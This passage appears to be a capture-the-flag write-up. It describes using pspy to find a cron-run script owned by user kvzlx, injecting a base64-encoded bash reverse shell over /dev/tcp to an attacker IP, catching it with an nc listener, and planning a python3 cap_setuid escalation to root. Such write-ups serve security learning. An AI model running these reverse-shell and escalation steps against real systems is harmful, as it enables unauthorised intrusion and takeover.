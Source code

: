 Therefore, we used the tool pspy, a command-line tool used to view running processes without needing root privileges. It can show us commands run by other users, cron jobs, etc.

![[attachment/4c896c64b77da7ddd46116d43fad8ec4.png]]

Using pspy, we observed that the user `kvzlx` executes a specific script every minute. This means any malicious command we manage to inject will be executed with the privileges of this user. To exploit this, we injected a reverse shell to gain access as `kvzlx`.

First, we need to encode our reverse shell in base64:

```
echo "bash -i &>/dev/tcp/192.168.1.105/1234 <&1" | base64; echo
```

 ![[attachment/92c9b1872de6b2a5048e5424d8f3b3cb.png]]
 
We then create the file `.wp-encrypted.txt` and insert the base64-encoded payload. 
On our attacking machine, we start a listener using `nc` and wait for the script to execute the injected code.
```
nc -nlvp 1234
```

We gained shell access as the user 'kvzlx'.

![[attachment/dad17fdaa19bbe5c68b9af3eec304711.png]]

This time, we used Linpeas to enumerate the system, searching for a way to escalate privileges.

![[attachment/6257f61261b6b1a8f738932880fb5d0b.png]]

Linpeas identified some noteworthy capabilities associated with the python3 binary.
"The cap_setuid capability is probably the most common one we see in CTF’s. This capability provides a user with the ability to run whatever binary that has this capability set as root. If we find that a binary such as a scripting language (python, perl, node, etc.) is assigned this capability, we can use system commands to easily setup an in-place upgrade to root." [Source](https://juggernaut-sec.com/capabilities/#cap_setuid)

We might have been able to leverage this capability with the `www-data` user, the user through which we gained initial access. However, upon review, this user does not have permission to execute `/opt/python3`.

![[attachment/725e3c661dd6bd4792146f5b9b9d61ed.png]]

Therefore, we absolutely needed to gain access as the user kvzlx. Once we have access as this user, we will exploit this capability to gain root access.

![[attachment/a509016e8c94f20ef8cefce8fccff324.png]]

![[attachment/812074873275eca686dccc84c38c73fb.png]]

